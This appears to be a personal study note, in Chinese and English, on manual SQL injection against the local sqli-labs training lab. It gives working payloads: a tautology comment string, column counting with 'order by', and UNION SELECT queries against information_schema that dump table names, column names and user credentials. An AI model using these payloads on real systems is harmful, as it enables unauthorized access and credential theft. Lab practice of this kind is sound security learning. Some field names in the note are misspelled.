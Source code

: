 ### sqlmap

注释：' or 1=1 -- %20  ' or 1=1 -- +

***步骤***

1. order by 判断字段数

   * 从大到小直到不报错

     ```http://localhost/sqli-labs/Less-1/?id=' order by 4 -- +```

   * 判断字段输出的位置：

     ```![image-20200304124556138](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20200304124556138.png)``

     ![image-20200304124612150](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20200304124612150.png)

2. union 联合查询获取表名

   ```http://localhost/sqli-labs/Less-1/?id=0' UNION SELECT 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() -- +```

   ***数据库名：table_schema***

   ***字段名：culumn_name***

   ***表名：table_name***

   

   

3. union 字段名

​          ```http://localhost/sqli-labs/Less-1/?id=0' UNION SELECT 1,group_concat(column_name),3 from information_schema.columns where table_name='users' -- +```

4. 获取字段值：

   ```http://localhost/sqli-labs/Less-1/?id=0' UNION SELECT 1,group_concat(username,0x3a,password),3 from users  -- +```

   



#### bind sql

### sql注入：

1. ***infromation_schema.columns***:
   1. table_schema 数据库名
   2. table_name 表名
   3. column_name 列名
2. ***information_schema.tables***
   1. table_schema 数据库名
   2. table_name 表名
3. information_shcema.schemata
   1. schema_name 数据库名



